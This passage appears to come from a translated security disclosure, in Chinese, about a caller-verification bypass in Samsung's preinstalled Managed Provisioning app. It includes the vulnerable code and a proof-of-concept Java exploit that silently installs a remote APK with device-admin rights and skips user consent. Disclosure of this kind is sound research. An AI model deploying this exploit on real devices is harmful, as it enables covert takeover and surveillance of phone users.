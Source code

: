 **注意：**我们使用`MediaStore.Files`是因为最新的 Android 版本不允许直接读取属于其他应用程序的外部存储，但这可以使用 Android Media Content Provider 绕过。


托管供应中的漏洞
--------


Managed Provisioning 是所有三星设备上预装的应用程序，**用于企业设备定制**。


再一次，在测试 Managed Provisioning 时，我们发现了从公共目录安装应用程序的漏洞：


[![黑客可以利用三星预装的应用程序来监视用户](https://img.vjob.top/imgs/vjob_2-3.png)](https://www.ddosi.org/wp-content/uploads/2021/06/2-3.png)
最初的应用程序是由 AOSP 开发的，它有安全检查来验证任何交互的授权。三星修改了托管配置应用程序，以添加与其生态系统和 Knox Core 交互所需的功能。


因此，在三星应用程序中，可以通过设置值来绕过此检查`com.samsung.knox.container.requestId`：



```
int intExtra = intent.getIntExtra("com.samsung.knox.container.requestId", -1);
if (intExtra > 0) {
   ProvisionLogger.logw("Skipping verifyActionAndCaller"); // the bypass
} else if (!verifyActionAndCaller(intent, str)) {
   return;
}
```

用于安装自定义应用程序并为其授予设备管理员权限的概念证明
----------------------------


这个概念证明是通过复制`ProvisioningParams.Builder`类的代码并传递配置托管供应所需的标准参数来构建的，其中包括：


* 下载应用程序的 URL
* 文件的 SHA1 哈希值
* 在[设备管理接收机](https://developer.android.com/guide/topics/admin/device-admin#developing)组件名称



```
byte[] hash = Base64.decode("5VNuCGDQygiVg4S86BKhySBVJlOpDZs3YYYsJKIOtCQ", 0);
PackageDownloadInfo.Builder infoBuiler = PackageDownloadInfo.Builder.builder()
       .setLocation("https://redacted.s3.amazonaws.com/app-release.apk")
       .setPackageChecksum(hash)
       .setSignatureChecksum(hash);

ProvisioningParams.Builder builder = ProvisioningParams.Builder.builder()
       .setSkipUserConsent(true)
       .setDeviceAdminComponentName(new ComponentName("test.exampleapp", "test.exampleapp.MyReceiver"))
       .setDeviceAdminPackageName("test.exampleapp")
       .setProvisioningAction("android.app.action.PROVISION_MANAGED_DEVICE")
       .setDeviceAdminDownloadInfo(infoBuiler.build());

ProvisioningParams params = builder.build();

Intent i = new Intent("com.android.managedprovisioning.action.RESUME_PROVISIONING");
i.setClassName("com.android.managedprovisioning", "com.android.managedprovisioning.preprovisioning.PreProvisioningActivity");
i.putExtra("provisioningParams", params);
i.putExtra("com.samsung.knox.container.requestId", 1);
i.putExtra("com.samsung.knox.container.configType", "knox-do-basic");
startActivity(i);
```
